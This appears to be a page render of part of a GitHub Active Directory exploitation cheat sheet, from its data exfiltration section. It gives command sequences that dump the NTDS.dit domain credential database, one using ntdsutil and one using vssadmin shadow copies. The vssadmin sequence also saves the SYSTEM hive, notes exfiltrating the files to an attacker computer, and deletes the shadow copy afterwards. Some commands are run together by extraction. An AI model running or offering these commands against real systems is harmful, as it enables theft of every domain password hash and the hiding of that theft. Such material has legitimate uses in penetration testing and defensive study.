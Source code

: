 ### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='301'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='908' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/N%20-%20Data%20Exfiltration/README.md#obtaining-ntdsdit-using-ntdsutil)Obtaining NTDS.dit Using ntdsutil

ntdsutilactivate instance ntds
ifm
create full C:\ntdsutil
quit
quit

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='302'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='911' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/N%20-%20Data%20Exfiltration/README.md#obtaining-ntdsdit-using-vssadmin)Obtaining NTDS.dit Using vssadmin

mkdir c:\extractREM -> c:\Windows\system32vssadmin create shadow /for=c:copy \\?GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\ntds\ntds.dit c:\extract\ntds.ditreg SAVE HKLM\SYSTEM c:\extract\SYSREM yesREM exfiltrate to your attacker computerREM housekeepingvssadmin delete shadows /shadow={PATH} /Quiet

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='303'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='928' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/N%20-%20Data%20Exfiltration/README.md#obtaining-ntdsdit-using-shadow-copy-sebackup)Obtaining NTDS.dit Using shadow copy (SeBackup)
